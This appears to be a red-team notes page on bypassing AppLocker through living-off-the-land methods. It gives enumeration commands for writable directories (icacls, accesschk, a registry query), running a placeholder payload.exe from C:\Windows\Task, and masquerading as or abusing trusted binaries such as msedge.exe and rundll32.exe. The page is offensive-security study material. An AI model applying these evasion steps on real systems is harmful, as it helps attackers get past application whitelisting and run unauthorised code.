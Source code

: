 # Living off the Land

## 01 - Enumerate

### 1.1 - Applocker EXE Bypass

#### 1.1.1 - Command Prompt

```
C:\> icacls.exe C:\Windows\Task
```

#### 1.1.2 - PowerShell

```
PS C:\> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrvV2\Exe
```

#### 1.1.3 - GPEdit

Local Computer Policy > User Configuration > Administrative Templates > System

### 1.2 - Applocker DLL Bypass

```
C:\> accesschk.exe "<username>" C:\Windows -wus
```

## 02 - Exploit

### 2.1 - World Writable Directories

```
C:\> C:\Windows\Task\payload.exe
```

### 2.2 - Create Directory

```
C:\Users\Administrator\Desktop> md Datasheet

C:\Users\Administrator\Desktop> move payload.exe Datasheet
```

### 2.3 - Masquerade Programs

```
msedge.exe
explorer.exe
```

### 2.4 - Whitelisted Executable Programs

```
rundll32.exe
```

---
## References

### Backlinks

- [[HTA]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

- [[Scriptlet]]

- [[Windows Scripting Host]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/WMI]]

- [[ForFiles]]

- [[DLL Execution]]

### Red Team Notes

- [Red Team Notes: Application Whitelisting Bypass with WMIC and XSL](https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl)

### Pentestlab

- [Pentestlab Blog: AppLocker Bypass - CMSTP](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/)